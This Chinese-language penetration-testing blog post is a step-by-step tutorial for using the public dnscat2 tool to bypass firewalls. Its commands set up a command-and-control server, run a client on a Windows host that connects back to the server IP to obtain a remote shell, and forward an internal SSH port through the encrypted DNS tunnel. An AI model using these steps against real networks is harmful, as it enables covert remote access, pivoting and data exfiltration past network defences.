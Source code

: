 ```yaml
---
layout: post
title: 通过DNS协议绕过防火墙
categories: penetration
tags: [penetration]
---
```

工具

[https://github.com/iagox86/dnscat2][1]

测试环境

```
ubuntu 14.04 root用户
windows7 x64 user用户
```

**0x01环境准备**

```
apt-get update
apt-get -y install ruby-dev git make g++
gem install bundler
git clone https://github.com/iagox86/dnscat2.git
cd dnscat2/server
#修改Gemfile source 'https://ruby.taobao.org/'
bundle install
```

或者通过docker安装

```
apt-get install docker.io
service docker status
service docker start
cd ~/dnscat2/server
#修改Gemfile source 'https://ruby.taobao.org/'
docker build .
```

安装完成之后，可能在docker images 看到这个镜像没有名字，我们修改一下 docker tag IMAGEID  mpercival/dnscat2

**0x02利用过程**

server端

```
cd dnscat2/server
ruby ./dnscat2.rb
#docker用户  docker run -p 53:53/udp -it --rm mpercival/dnscat2 ruby ./dnscat2.rb
```
![2841831801](http://ogmho3r7t.bkt.clouddn.com/2017-04-17-2841831801.png)

 可以通过两种方式设置C&C地址，如果没有域名的话，直接在外网VPS运行ruby ./dnscat2.rb 有域名的童鞋，先设置好NS服务器将NS记录修改为当前的机器。然后通过ruby ./dnscat2.rb yourdomain 我这里使用的IP地址

client端

将dnscat2文件夹下面的client编译好成exe，然后上传到client端

```
dnscat2.exe --dns=server=server端ip --secret=c2c6d04cab68ee2947d80316858da0f8
```
![3501735141](http://ogmho3r7t.bkt.clouddn.com/2017-04-17-3501735141.png)

由于在新版本的dnscat2是加密的所以我们在客户端执行的时候要加上秘钥，不然无法正确的建立连接
![197873402](http://ogmho3r7t.bkt.clouddn.com/2017-04-17-197873402.png)

获取shell

```
session -i 1 #切换到session 1
help #通过help可以看到支持的命令
shell  #执行之后会新生成一个session  需要通过session -i 2 切过去
```
![842306562](http://ogmho3r7t.bkt.clouddn.com/2017-04-17-842306562.png)

这样就成功获取了一个shell，我们可以通过数据包看一下
![3078174618](http://ogmho3r7t.bkt.clouddn.com/2017-04-17-3078174618.png)

数据都是通过DNS发出去的，并且是加密过的，因为在最初的dnscat2的版本中，数据只是简单的hex编码。到最新版的默认就已经加密
![2981816537](http://ogmho3r7t.bkt.clouddn.com/2017-04-17-2981816537.png)

通过Salsa20加密算法进行了加密，如果不知道秘钥，就几乎不能解密数据包了。除了普通的反弹shell和上传下载文件功能，还有一个比较有用的功能
可以通过dnscat2实现DNS隧道，然后进行内网渗透。在成功获取一个session之后执行

```
session -i id
listen 4444 10.211.55.19:22 #将内网10.211.55.19的22端口转发到本地的4444
```
![2557060718](http://ogmho3r7t.bkt.clouddn.com/2017-04-17-2557060718.png)

然后直接ssh本地的ip的4444端口
![2093290607](http://ogmho3r7t.bkt.clouddn.com/2017-04-17-2093290607.png)

注意的是我用的docker环境，所以是直接ssh的docker的ip



**0x03参考**
[https://github.com/iagox86/dnscat2][11]
[https://zeltser.com/c2-dns-tunneling/][12]


  [11]: https://github.com/iagox86/dnscat2/
  [12]: https://zeltser.com/c2-dns-tunneling/

